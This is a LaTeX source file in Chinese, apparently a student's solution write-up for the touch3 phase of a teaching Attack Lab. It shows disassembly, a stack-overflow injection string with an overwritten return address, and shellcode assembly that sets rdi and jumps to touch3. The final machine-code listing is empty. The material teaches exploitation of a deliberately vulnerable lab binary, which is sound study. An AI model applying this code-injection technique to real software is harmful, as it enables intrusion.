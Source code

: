 \documentclass[12pt, a4paper, oneside]{ctexart}
\begin{document}
\begin{itemize}
\begin{lstlisting}
00000000004018fa <touch3>:
4018fa:	53                   	push   %rbx
4018fb:	48 89 fb             	mov    %rdi,%rbx
4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
401905:	00 00 00 
401908:	48 89 fe             	mov    %rdi,%rsi
40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
401916:	85 c0                	test   %eax,%eax
401918:	74 23                	je     40193d <touch3+0x43>
40191a:	48 89 da             	mov    %rbx,%rdx
40191d:	be 38 31 40 00       	mov    $0x403138,%esi
401922:	bf 01 00 00 00       	mov    $0x1,%edi
401927:	b8 00 00 00 00       	mov    $0x0,%eax
40192c:	e8 bf f4 ff ff       	callq  400df0 <__printf_chk@plt>
401931:	bf 03 00 00 00       	mov    $0x3,%edi
401936:	e8 52 03 00 00       	callq  401c8d <validate>
40193b:	eb 21                	jmp    40195e <touch3+0x64>
40193d:	48 89 da             	mov    %rbx,%rdx
401940:	be 60 31 40 00       	mov    $0x403160,%esi
401945:	bf 01 00 00 00       	mov    $0x1,%edi
40194a:	b8 00 00 00 00       	mov    $0x0,%eax
40194f:	e8 9c f4 ff ff       	callq  400df0 <__printf_chk@plt>
401954:	bf 03 00 00 00       	mov    $0x3,%edi
401959:	e8 f1 03 00 00       	callq  401d4f <fail>
40195e:	bf 00 00 00 00       	mov    $0x0,%edi
401963:	e8 d8 f4 ff ff       	callq  400e40 <exit@plt>  
\end{lstlisting}
    \item 可以看到 hexmatch 函数先将栈顶加上 0xffffffffffffff80，即减去
    0x80，这显然会覆盖掉 getbuf 函数运行时加入栈中的信息，如果像上一题那样
    在输入的一开始就注入攻击代码显然会被覆盖掉，我们可以在那里将字符串指针
    赋给 rdi，但是不能在那里存储字符串信息。我们应该在栈生长的反方向存储信息，
    即利用字符串溢出，存储在 test 函数中。示例答案如下（yy 代表 cookie 字符串的ASCII序列，
    xx 代表注入攻击代码的机器码）：
\begin{lstlisting}
xx xx xx xx xx xx xx xx xx xx
xx xx xx xx xx xx xx xx xx xx
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 yy yy
yy yy yy yy yy yy
\end{lstlisting}
    \item cookie 的ASCII码为：35 39 62 39 39 37 66 61 00 00 00 00 （注意字符串需要以0结尾）;
    并且容易看出字符串首地址为 getbuf 函数栈顶 + 0x30（rsp + 0x30）。
    \item 将 rdi 的值置为 cookie 字符串的地址，并跳转到 touch3 函数，汇编代码为（写在example.s中）：
\begin{lstlisting}
movq $0x5561dca8, %rdi
pushq $0x4018fa
retq
\end{lstlisting}
    用以下命令将它转化为机器代码：
\begin{lstlisting}
gcc -c example.s
objdump -d example.o > example.s
\end{lstlisting}
    得到的机器代码：
\begin{lstlisting}
example.o:     file format elf64-x86-64



\end{lstlisting}
\end{itemize}
\end{document}
